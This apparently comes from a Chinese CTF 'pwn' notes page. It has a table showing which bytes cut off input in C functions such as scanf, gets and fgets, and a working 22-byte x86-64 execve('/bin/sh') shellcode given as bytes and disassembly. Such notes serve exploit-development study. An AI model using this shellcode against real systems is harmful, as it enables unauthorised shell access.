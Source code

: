 ```yaml
---
title: shellcode
date: 2024-08-30 22:11:42
---
```


# 各种读取函数的截断
| 函数                   | 截断字符                           | 截断属性                                                   | 截断字符是否保留 | 截断后加 |
| ---------------------- | ---------------------------------- | ---------------------------------------------------------- | ---------------- | -------- |
| `read(0,a,0x100)`      | EOF                                | 无                                                         | 无               | 无       |
| `*a=getchar()`         | EOF                                | 无                                                         | 无               | 无       |
| `scanf("%c",a)`        | EOF                                | 无                                                         | 无               | 无       |
| `scanf("%s",a)`        | EOF 0x09 0x0a 0x0b 0x0c 0x0d 0x20  | 截断字符前有有效内容则截断，无有效内容则跳过截断字符读后面 | 不保留           | 0x00     |
| `sscanf(a,"%s",b)`     | 0x00 0x09 0x0a 0x0b 0x0c 0x0d 0x20 | 截断字符前有有效内容则截断，无有效内容则跳过截断字符读后面 | 不保留           | 0x00     |
| `gets(a)`              | EOF 0x0a                           | 截断字符前无论有无有效内容均截断                           | 不保留           | 0x00     |
| `fgets(a,0x100,stdin)` | EOF 0x0a                           | 截断字符前无论有无有效内容均截断                           | 保留             | 0x00     |
| `sscanf(a,"%[^;];",b)` | 0x00 0x3b                          | 无                                                         | 不保留           | 0x00     |
| `sprintf(b,"%s",a)`    | 0x00                               | 无                                                         | 保留             | 无       |
| `strcpy(b,a)`          | 0x00                               | 无                                                         | 保留             | 无       |
| `strcat(b,a)`          | 0x00                               | 无                                                         | 保留             | 无       |
| `strncat(b,a,0x10)`    | 0x00                               | 无                                                         | 保留             | 无       |
| `strncat(b,a,0x10)`    | 达到拷贝长度                       | 无                                                         | 保留             | 0x00 |

# shellcode
关于系统调用号：[syscall](/pwn/syscall)

下面给出了收集到的shellcode，将部分可能需要修改的shellcode反编译出来了，一些有特殊限制的就没有给出反编译结果
## 64位
### execve
> 一般没有禁用execve就会用execve来拿shell，如果禁了(KILL)就不要想着拿shell了，因为你拿到的shell输入的命令也要用execve，同样会被禁
#### scanf可读取 22字节
```python
b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
```
```x86asm
xor    rsi, rsi
push   rsi
movabs rdi, 0x68732f2f6e69622f
push   rdi
push   rsp
pop    rdi
mov    al, 0x3b
cdq    
syscall
```

